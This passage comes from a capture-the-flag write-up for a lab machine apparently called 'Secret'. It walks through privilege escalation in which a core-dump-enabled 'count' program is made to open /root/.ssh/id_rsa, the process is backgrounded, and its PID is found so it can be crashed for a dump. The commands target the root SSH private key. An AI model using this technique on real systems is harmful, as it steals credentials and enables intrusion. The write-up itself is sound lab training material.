 There’s an SSH key!

### Exploit Crash Dump

#### Generate Dump

There’s a comment in the source `// Enable coredump generation`. That’s a good hint to try generating a crash of the process. When a program crashes, the system stores the crash dump files [in](https://refspecs.linuxfoundation.org/FHS_2.3/fhs-2.3.html#VARCRASHSYSTEMCRASHDUMPS) `/var/crash`. There’s actually already two there:

```

dasith@secret:/var/crash$ ls -l                   
total 52                                                                                                 
-rw-r----- 1 root root 27203 Oct  6 18:01 _opt_count.0.crash
-rw-r----- 1 root root 24048 Oct  5 14:24 _opt_countzz.0.crash

```

These are dated from back before this box released, so they are likely the developer playing with the `count` (and `countzz`?) program.

The plan is to start the program, have it read something interesting I want to read, and then cause it to crash. When I listed `/root` earlier, there was a `.ssh` directory. Looking in that directory (with `count`) shows there’s an `id_rsa` file. I’ll try to read that.

First I’ll start count and read the file:

```

dasith@secret:/opt$ ./count
Enter source file/directory name: /root/.ssh/id_rsa
                                                    
Total characters = 2602
Total words      = 45
Total lines      = 39                    
Save results a file? [y/N]:

```

Waiting for my input, I’ll Ctrl-z to background the process:

```

Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count     
dasith@secret:/opt$ 

```

Now I’ll get the pid of the process, which in this case is 1384:

```

dasith@secret:/var/crash$ ps                
    PID TTY          TIME CMD
   1371 pts/0    00:00:00 sh
   1372 pts/0    00:00:00 bash
   1384 pts/0    00:00:00 count
   1403 pts/0    00:00:00 ps

```

